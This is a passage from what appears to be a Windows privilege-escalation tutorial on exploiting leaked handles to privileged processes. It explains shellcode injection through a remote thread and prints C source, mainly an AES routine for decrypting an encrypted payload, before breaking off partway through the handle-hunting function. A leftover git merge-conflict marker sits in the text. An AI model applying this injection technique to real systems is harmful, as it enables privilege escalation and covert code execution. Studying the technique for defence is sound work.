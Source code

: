 The most interesting part of this code is located in `GetVulnProcHandle`. This function will **start fetching all the handles**, then it will **check if any of them belongs to the same PID** and if the handle belongs to a **process**. If all these requirements are completed (an accessible open process handle is found) , it try to **inject and execute a shellcode abusing the handle of the process**. \
The injection of the shellcode is done inside the **`Inject`** function and it will just **write the shellcode inside the privileged process and create a thread inside the same process** to execute the shellcode).
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <wincrypt.h>
#include <psapi.h>
#include <tchar.h>
#include <tlhelp32.h>
#include "client.h"
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#pragma comment (lib, "kernel32")


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                return -1;
        }

        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }

        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);

        return 0;
}


HANDLE GetVulnProcHandle(void) {

    ULONG handleInfoSize = 0x10000;
    NTSTATUS status;
    PSYSTEM_HANDLE_INFORMATION phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) malloc(handleInfoSize);
    HANDLE hProc = NULL;
    POBJECT_TYPE_INFORMATION objectTypeInfo;
    PVOID objectNameInfo;
```